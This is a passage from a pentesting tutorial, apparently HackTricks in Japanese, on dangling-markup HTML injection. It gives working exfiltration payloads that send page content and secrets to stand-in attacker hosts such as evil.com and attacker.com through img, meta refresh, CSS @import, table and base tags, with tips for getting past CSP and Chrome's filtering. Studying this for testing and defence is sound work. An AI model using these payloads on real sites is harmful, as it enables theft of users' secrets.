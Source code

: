 # ダングリングマークアップ - HTMLスクリプトレスインジェクション

<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>

## 概要

このテクニックは、**HTMLインジェクションが見つかった場合にユーザーから情報を抽出する**ために使用できます。これは、[**XSS** ](xss-cross-site-scripting/)を**悪用する方法が見つからない**場合に非常に便利ですが、いくつかのHTMLタグを**インジェクトすることができる**場合です。\
また、HTML内に**平文で保存された秘密**がある場合に、クライアントからそれを**外部に持ち出す**ためにも役立ちます。また、スクリプトの実行を誤認させるためにも使用できます。

ここでコメントされているいくつかのテクニックは、予期しない方法で情報を外部に持ち出すことによって、いくつかの[**コンテンツセキュリティポリシー**](content-security-policy-csp-bypass/)をバイパスするために使用できます（htmlタグ、CSS、http-metaタグ、フォーム、baseなど）。

## 主な応用

### 平文の秘密の盗み出し

`<img src='http://evil.com/log.cgi?`をインジェクトすると、ページが読み込まれたときに被害者はインジェクトされた`img`タグと次のクォート内のコードの間のすべてのコードを送信します。そのチャンクに秘密が何らかの方法で存在する場合、それを盗みます（同じことをダブルクォートを使用して行うこともできます。どちらがより興味深いかを見てみてください）。

`img`タグが禁止されている場合（CSPのためなど）、`<meta http-equiv="refresh" content="4; URL='http://evil.com/log.cgi?`を使用することもできます。
```
<img src='http://attacker.com/log.php?HTML=
<meta http-equiv="refresh" content='0; url=http://evil.com/log.php?text=
<meta http-equiv="refresh" content='0;URL=ftp://evil.com?a=
```
注意してください、**Chromeは** "<" **または** "\n" **を含むHTTP URLをブロック**しますので、"ftp" のような他のプロトコルスキームを試すことができます。

また、CSSの`@import`を悪用することもできます（";"が見つかるまでのすべてのコードを送信します）。
```markup
<style>@import//hackvertor.co.uk?     <--- Injected
<b>steal me!</b>;
```
あなたは**`<table`**を使用することもできます：
```bash
<table background='//your-collaborator-id.burpcollaborator.net?'
```
あなたは`<base`タグを挿入することもできます。引用符が閉じられるまで、すべての情報が送信されますが、ユーザーの操作が必要です（ユーザーはリンクをクリックする必要があります。なぜなら、ベースタグがリンクが指すドメインを変更しているからです）:
```markup
<base target='        <--- Injected
steal me'<b>test</b>
```
### フォームの盗み出し

When conducting a web application penetration test, it is important to identify and exploit any vulnerabilities that may exist in the application's forms. One such vulnerability is known as "dangling markup" or "HTML scriptless injection."
